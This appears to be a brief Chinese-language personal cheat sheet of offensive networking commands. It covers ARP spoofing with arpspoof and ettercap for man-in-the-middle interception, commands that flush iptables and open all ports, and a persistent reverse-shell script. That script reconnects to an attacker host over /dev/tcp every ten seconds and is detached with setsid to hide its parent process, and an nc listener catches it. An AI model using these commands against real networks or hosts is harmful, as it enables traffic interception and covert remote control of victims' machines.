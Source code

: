 # arp

## arpspoof
1. install
```shell
apt install dsniff
```
2. 开启IP转发
```shell
# Linux root user
echo 1 >/proc/sys/net/ipv4/ip_forward
```
3. 查看IP转发
```shell
sudo sysctl -a | grep forward
```

## ettercap
```shell
# arp spoof
sudo ettercap -T -M arp /192.168.31.1// /192.168.31.68//
#
sudo ettercap -T -M arp:remote /192.168.31.1// /192.168.31.68//
```
## others
* driftnet
* upx
* od

# iptables

> https://www.digitalocean.com/community/tutorials/how-to-list-and-delete-iptables-firewall-rules

## 显示规则
```shell
sudo iptables -L # 显示iptables规则,--line-number可以显示规则编号,用于指定删除某条规则
```

## 删除一条规则
```shell
sudo iptables -D # 用于删除
sudo iptables -D INPUT # 删除所有INPUT规则
sudo iptables -D INPUT 1 # 删除INPUT下第一条规则,编号来自--line-number
```

## 删除所有iptables规则
```shell
#开放所有端口
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo iptables -F
#Oracle自带的Ubuntu镜像默认设置了Iptable规则，关闭它
apt-get purge netfilter-persistent
#删除配置文件后需要重启
rm -rf /etc/iptables && reboot
```

## 添加防火墙规则
```shell
iptables -A INPUT -s 192.168.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

# reverse shell

    启用tcp连接主机，每隔10秒连接一次。当主机开启监听就直接向靶机发送指令。
    主机不在连接中，靶机上也看不到tcp信息，但是能看到进程信息。
    所以要将启动的进程的父进程设置为init(1)，用setsid命令将程序执行启动
1. 在靶机上启动反向shell

    创建如下文件reverse_shell.sh
```shell
#!/bin/bash

while true;do bash -i 2>/dev/null &> /dev/tcp/attack_IP/attack_port 0>&1;sleep 10; done;
```
    启动该程序
```shell
setsid reverse_shell.sh
```

2. 在攻击机器上接收
```shell
nc -lvp attack_port
```